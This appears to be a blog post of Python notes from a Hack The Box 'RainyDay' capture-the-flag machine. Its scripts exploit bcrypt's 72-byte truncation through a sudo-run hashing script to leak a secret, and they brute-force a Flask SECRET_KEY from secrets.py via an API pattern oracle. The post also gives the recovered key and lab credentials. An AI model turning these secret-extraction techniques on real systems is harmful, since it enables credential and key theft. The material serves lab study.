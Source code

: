 +++
author = "Frenchie"
title = "RainyDay HTB"
date = "2023-02-23"
description = "RainyDay HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

> The os.popen() function and the subprocess.Popen() function are both used for executing external commands in Python, but they have some differences that make one better than the other in different situations.

<!--more-->

os.popen() is an older function that is used to open a pipe to a command and read or write to the command's standard input or output. It is a higher-level function that abstracts away some of the details of process management. However, it is generally not recommended to use os.popen() for new code, as it is considered to be a legacy function.

subprocess.Popen() is a newer and more powerful function that provides more fine-grained control over the execution of external commands. It allows you to specify command-line arguments, environment variables, working directory, and more. It also provides more options for handling input and output, including piping, redirection, and buffering.

In general, subprocess.Popen() is considered to be the preferred function for executing external commands in modern Python code. It is more flexible and provides better control over the process execution. However, os.popen() may still be useful in certain situations where you need to quickly execute a simple command and capture its output.

In summary, if you need to execute external commands with more advanced options and greater control, subprocess.Popen() is generally the better choice. If you just need to execute a simple command and capture its output, os.popen() may still be useful, but it is recommended to use subprocess.Popen() instead.

### My First Trial
using `subprocess.communicate` to send the test_word.

```python
import bcrypt
import string
import subprocess
import re

secret = ''
found = False

while not found:
    p = subprocess.Popen(["sudo", "/opt/hash_system/hash_password.py"], stdin=subprocess.PIPE, stdout=subprocess.PIPE)
    test_word = f"{'🎅'*(17-len(secret)//4)}{'A'* (3-len(secret)%4)}"
    print(f"{test_word=}", end="\r")
    output, err = p.communicate(test_word.encode("utf-8"))
    output_text = (output.decode("utf-8"))
    rainy_hash = re.search(r"Hash: ([\w|\W]*)\n", output_text).group(1)

    for c in string.printable[:-5]:
        if bcrypt.checkpw(test_word.encode() + secret.encode() + c.encode(), rainy_hash.encode()):
            print(f"{c=}", end="\r")
            secret += c
            print(f"{secret=}", end="\r")
            break
        if c == string.printable[-6]:
            print(f"Reaching end of printable strings. Final result {secret}")
            found = True
```

### from 0XDF
using `subprocess.run` and `input=`test_word.
```python
import bcrypt
import subprocess
import string

santa = "🎅"
secret = ""


while True:
    pass_length = 71 - len(secret)
    santa_num = pass_length // 4
    ah_len = pass_length % 4

    test_word = f"{'🎅'*santa_num}{'A'*ah_len}"
    out = subprocess.run(["sudo", "/opt/hash_system/hash_password.py"], input=test_word.encode(), stdout=subprocess.PIPE)

    for c in string.printable[:-6]:
        if bcrypt.checkpw((test_word+secret+c).encode(), out.stdout.split(b" ")[-1].strip()):
            print(f"\r{secret=}", end="")
            secret += c
            break

    else:
        break

print(f"\r{secret=:<30}")
```

### from IPPSEC
using `os.popen` with `echo` and piping.
```python
# bcrypt max is 72 bytes
required_length = 71 - len(append)
i = get_padding(required_length)
print(f"[+] Getting Hash for {i}")
out = os.popen(f"echo '{i}' | sudo /opt/hash_system/hash_password.py").read()
h = out[out.index("Hash: ") + 6:].strip()
print(f"[+] Hash: {h}")
return h
```

---
## String Format
[DOCS](https://docs.python.org/3/library/string.html#format-specification-mini-language)
```python
num = 132546
print(f"Minimum {num=:,d} per round.")
print(f"Minimum {num=:_.2f} per round.")
print(f"Minimum {num=:,.2f} per round.")
print(f"Minimum {num=:<15,.2f} per round.")
print(f"Minimum {num=:*^15,.2f} per round.")
print(f"Minimum {num=:>12,d} per round.")
```

result:
```text
>>> num = 132546
>>> print(f"Minimum {num=:,d} per round.")
Minimum num=132,546 per round.
>>> print(f"Minimum {num=:_.2f} per round.")
Minimum num=132_546.00 per round.
>>> print(f"Minimum {num=:,.2f} per round.")
Minimum num=132,546.00 per round.
>>> print(f"Minimum {num=:<15,.2f} per round.")
Minimum num=132,546.00      per round.
>>> print(f"Minimum {num=:*^15,.2f} per round.")
Minimum num=**132,546.00*** per round.
>>> print(f"Minimum {num=:>12,d} per round.")
Minimum num=     132,546 per round.
```

---
## re-use http connection

### Session Objects
The Session object allows you to persist certain parameters across requests. It also persists cookies across all requests made from the Session instance, and will use urllib3’s connection pooling. So if you’re making several requests to the same host, the underlying TCP connection will be reused, which can result in a **significant performance increase**. [read](https://requests.readthedocs.io/en/latest/user/advanced/#session-objects)

#### without re-use connection
```python
while not completed:
    for c in string.printable:
        try:
            test = pattern + c
            json = {"file": "/var/www/rainycloud/secrets.py", "type": "CUSTOM", "pattern": re.escape(test)}

            resp = requests.post(url=url, cookies=cookies, data=json, proxies=proxy)

            print(f"\r{display}{c}", end="")
            if resp.json().get("result"):
                pattern += c
                display = '' if c == "\n" else display + c
                break
```

it took 267 secs to complete this sentence `SECRET_KEY = 'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67'`.

#### re-use connection
```python
sess = requests.session()
sess.proxies.update(proxy)
sess.post("http://dev.rainycloud.htb/login", data={"username": "gary", "password": "rubberducky"})

while not completed:
    for c in string.printable:
        try:
            test = pattern + c
            json = {"file": "/var/www/rainycloud/secrets.py", "type": "CUSTOM", "pattern": re.escape(test)}

            resp = sess.post(url=url, data=json)

            print(f"\r{display}{c}", end="")
            if resp.json().get("result"):
                pattern += c
                display = '' if c == "\n" else display + c
                break
```

it took 83 secs to complete the same sentence.

---
## data=payload vs json=payload
with `resp = sess.post(url=url, json=json)`, the intercepted burp is:
```text
POST /api/healthcheck HTTP/1.1
Host: dev.rainycloud.htb
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y_tNHQ.yokTJAhLAZa_FwOjud2m8tATqMk
Content-Length: 76
Content-Type: application/json

{"file": "/var/www/rainycloud/secrets.py", "type": "CUSTOM", "pattern": "0"}
```

with `resp = sess.post(url=url, data=json)`, the request is:
```text
POST /api/healthcheck HTTP/1.1
Host: dev.rainycloud.htb
User-Agent: python-requests/2.28.2
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6ImdhcnkifQ.Y_tM8w.tTpfZy_kMDqjXx-LkoX50kDmp0U
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

file=%2Fvar%2Fwww%2Frainycloud%2Fsecrets.py&type=CUSTOM&pattern=l
```

Particulary in this case, the server won't accept content-type in json. I need to use `Content-Type: application/x-www-form-urlencoded` and proper requests syntax is `data=payload`.